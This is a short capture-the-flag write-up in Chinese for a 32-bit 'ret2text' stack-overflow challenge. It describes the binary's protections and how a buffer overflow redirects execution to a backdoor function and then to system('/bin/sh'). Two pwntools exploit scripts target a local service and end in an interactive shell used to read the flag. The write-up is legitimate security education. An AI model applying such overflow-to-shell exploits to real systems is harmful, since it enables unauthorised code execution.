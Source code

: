 # ret2text 32

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了32位~~

## 解题思路

观察vuln函数里面输入一个数，并其后从输入中获取对应字节数 ~~%d个？随便打~~  
观察.text段，存在`b4ckdoor`函数，但是执行echo hi？？

显然，在第一步的exp中，只是跳转到该函数是没用的  
~~进一步探索，发现程序中system读取ebx寄存器中的内容  
而程序中存在`pop ebx; ret;`和`/bin/sh`~~  
先后压栈`system()`和`/bin/sh`即可  
再次发起exp

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x0804928c)) # Addr of ba4kdoor
sh.interactive()
```

成功打印出`hi!`！但是没有flag

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x080492a9) + p32(0x0804c02c)) # Addr of system & /bin/sh
sh.interactive()
```

> 做到这里的时候是0:09，网站打不开了，不会还有宵禁吧？明日再战
>
> 后记：真的有宵禁，12点后对外网关闭

再次运行，`cat flag`，得到flag

Done.
